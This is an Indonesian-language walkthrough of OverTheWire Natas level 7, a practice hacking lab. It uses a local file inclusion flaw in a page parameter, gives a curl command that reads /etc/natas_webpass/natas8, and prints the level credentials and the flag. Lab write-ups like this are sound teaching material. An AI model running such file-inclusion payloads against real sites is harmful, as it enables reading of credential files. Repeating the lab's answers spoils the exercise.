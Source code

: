 ```yaml
---
layout: level
level: 7
previous: ./level 06.html
next: ./level 08.html
---
```


# soal
Username: natas7 \
URL:      http://natas7.natas.labs.overthewire.org

# solve
- use cred natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
- disini ketika saya sudah login saya melihat terdapat sebuah navbar untuk berpindah halaman dan ketika di lihat terdapat sebuah query
  - query nya adalah ?page=home
  ![alt text](docs/images/image-8.png)
- lalu ketika saya lihat view-source pagenya saya menemukan hint untuk posisi passwrod natas
  ![alt text](docs/images/image-9.png)
  ```/etc/natas_webpass/natas8```
- jadi saya mengubah value dari paramter ?page
  - dan mendapatkan flagnya
  ![alt text](docs/images/image-10.png)
- jika menggunakan curl
  ```bash
  curl http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8 -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
  # xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q
  # <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
  ```

# flag
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q